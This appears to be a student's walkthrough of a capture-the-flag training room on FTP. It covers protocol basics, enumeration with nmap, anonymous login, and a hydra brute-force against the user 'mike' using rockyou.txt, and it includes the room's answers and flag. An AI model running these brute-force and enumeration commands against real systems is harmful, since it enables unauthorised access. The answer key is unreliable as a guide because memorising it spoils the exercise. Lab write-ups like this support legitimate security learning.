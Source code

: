 ## 8. Understanding FTP

- File Transfer Protocol (RFC959)
  - Command (control) + data channels
- Active FTP: client listens, server connects.
- Passive FTP: server listens, client connects.

1. client-server
2. 21
3. 2

## 9. Enumerating FTP

1. 2
  * `nmap -p- $IP`
  * Actually, nmap only found 1!
2. 21
3. vsftpd
  * `nmap -p21 -sV $IP`
4. `PUBLIC_NOTICE.txt`
  * `ftp $IP` and `anonymous` and Enter.
  * `ls`
5. Mike
  * `get PUBLIC_NOTICE.txt` and `cat` locally.
6. N/A

## 10. Exploiting FTP

Unencrypted: can be sniffed.

1. password
  * `sudo pacman -Sy hydra`
  * Download `rockyou.txt`.
  * `hydra -t 4 -l mike -P ./rockyou.txt -vV $IP ftp`
2. N/A
  * `ftp $IP` and `mike` and the password.
3. `THM{y0u_g0t_th3_ftp_fl4g}`
  * `ls`
  * `get ftp.txt` and `cat` locally.
  * `quit`

## 11. Expanding Your Knowledge

- https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef
- https://attack.mitre.org/techniques/T1210/
- https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/

_Well done, you did it!_

> N/A
